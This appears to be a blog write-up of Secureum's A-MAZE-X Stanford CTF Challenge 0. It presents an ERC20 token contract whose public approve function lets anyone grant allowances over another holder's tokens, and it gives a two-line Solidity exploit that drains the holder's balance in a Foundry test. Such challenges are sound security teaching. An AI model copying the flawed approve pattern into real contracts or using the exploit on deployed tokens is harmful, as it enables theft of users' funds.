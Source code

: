 ```yaml
---
layout: post
title: Secureum A-MAZE-X Stanford - Challenge 0 
date:  2022-09-13
tags: Secureum
---
```

[Secureum A-MAZE-X Stanford Github repo](https://github.com/secureum/DeFi-Security-Summit-Stanford) 

## Challenge 0: VitaToken seems safe, right?
Let's begin with a simple warm up. Our beloved Vitalik is the proud owner of 100 $VTLK, which is a token that follows the ERC20 token standard. Or at least that is what it seems... 😉😉😉 <br />
📌 Upon deployment, the VToken contract mints 100 $VTLK to Vitalik's address.<br /> 
Is there a way for you to steal those tokens from him? 😈😈😈 <br /> 
> 🗒️ Concepts you should be familiar with (spoilers!)
  - [The ERC20 token standard](https://ethereum.org/en/developers/docs/standards/tokens/erc-20), especially the meaning of approving funds.

## Contract
``` solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.14;

import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract VToken is ERC20 {

    // Decimals are set to 18 by default in `ERC20`
    constructor() ERC20("VToken", "VTLK") {
      address vitalik = 0xd8dA6BF26964aF9D7eEd9e03E53415D37aA96045;   
      _mint(vitalik, 100 ether);
    }

    /**
     * @dev See {IERC20-approve}.
     *
     * NOTE: If `amount` is the maximum `uint256`, the allowance is not updated on
     * `transferFrom`. This is semantically equivalent to an infinite approval.
     *
     * Requirements:
     *
     * - `spender` cannot be the zero address.
     */
    function approve(address owner, address spender, uint256 amount) public returns (bool) {
        _approve(owner, spender, amount);
        return true;
    }
}
```

## Writeup
This level is pretty easy. Check out `VToken` contract, there is the `approve` function. 
1. Add below code to `Challenge0.t.sol` to complete the level. 
    ``` solidity
    VToken(token).approve(vitalik, player, type(uint256).max);
    IERC20(token).transferFrom(vitalik, player, IERC20(token).balanceOf(vitalik));
    ```
2. Run `forge test --match-path test/Challenge0.t.sol`.

